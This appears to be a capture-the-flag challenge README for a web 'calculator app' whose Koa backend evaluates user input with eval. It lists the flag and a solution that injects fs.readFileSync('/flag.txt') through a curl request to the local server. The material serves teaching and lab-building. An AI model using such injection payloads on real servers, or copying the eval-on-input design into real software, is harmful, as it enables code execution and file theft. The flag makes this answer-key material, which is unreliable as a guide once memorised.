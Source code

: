 # calculator app

> Category: web
> Suggested Points: 150
> Distribute: index.js

# Description
> Detailed description as it would need to be explained to other lab members

Calculator app that is using eval on the backend. They can just type in 
javascript and it will run it.

# Deployment
> Any special information about the deployment if there is a server component

Koajs app that listens on port 5000

# Flag

`flag{rce_is_a_fun_thing}`

# Solution
> As detailed as possible description of the solution. Not just the solver script. As full a description as possible of the solution for the challenge.

Since the web server is just running what you put in the calculator as javascript,
you can just put in anything that will read the file. For me, I just did 
`fs.readFileSync("/flag.txt")`.

```
curl http://localhost:5000/?expression=fs.readFileSync%28%22%2Fflag.txt%22%29
```

# Potential Breakage
> Potential places the challenge could break (not applicable to all challenges)

RCE, so all the stuff that comes with that. We'll need to make sure everything has the 
right permissions in the container.
